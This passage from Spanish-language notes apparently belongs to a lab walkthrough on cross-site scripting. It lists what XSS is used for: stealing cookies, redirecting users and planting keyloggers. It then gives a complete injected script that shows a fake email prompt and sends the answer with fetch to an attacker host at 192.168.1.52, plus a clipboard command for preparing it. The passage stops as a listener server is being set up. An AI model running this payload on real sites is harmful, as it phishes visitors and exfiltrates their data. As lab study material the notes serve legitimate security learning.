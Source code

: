 - Se recomienda usar la consola para probar otros payloads antes de inyectarlos en la página.
    

> **Explicación:**  
> La prueba en consola es solo una verificación preliminar.

---

### Conclusión del Paso 1

Las pruebas confirman que la web es vulnerable a XSS si permite la inyección de etiquetas HTML y JavaScript sin sanitización.  
El objetivo de XSS no es solo mostrar alertas, sino:

- **Robar cookies** (e.g., `document.cookie`)
    
- **Redirigir usuarios** (e.g., `window.location`)
    
- **Inyectar keyloggers** (e.g., mediante `document.addEventListener("keypress", function(e) { ... })`)
    

---

## Paso 2 - Prueba de XSS para Captura de Email

**Script para capturar el correo electrónico del usuario:**

```html
<script>
  var email = prompt("Por favor, introduzca su correo electrónico para visualizar el post", "example@example.com");
  
  if (email == null || email == "") {
    alert("Se requiere introducir un correo válido para visualizar el post");
  } else {
    fetch("http://192.168.1.52/?email=" + email);
  }
</script>
```

**fectch(...)**   |   Realiza una **petición HTTP** desde el navegador. Es una *API moderna de JS* para hacer solicitudes HTTP. Reemplaza a `XMLHttpRequest` y permite hacer peticiones GET, POST, etc., fácilmente. Es clave en XSS para robar datos y enviarlos a servidores

**prompt**      |   Pide input, no solo muestra. Una comparación  precisa sería: `read` en bash o `input()` en Python

**Uso de comandos en la terminal:**

```bash
bat email.js | xclip -sel clip
```

- Esto copia en el portapapeles el contenido del script creado.
    

Se sube este post y, en paralelo, se levanta un servidor local con Python:
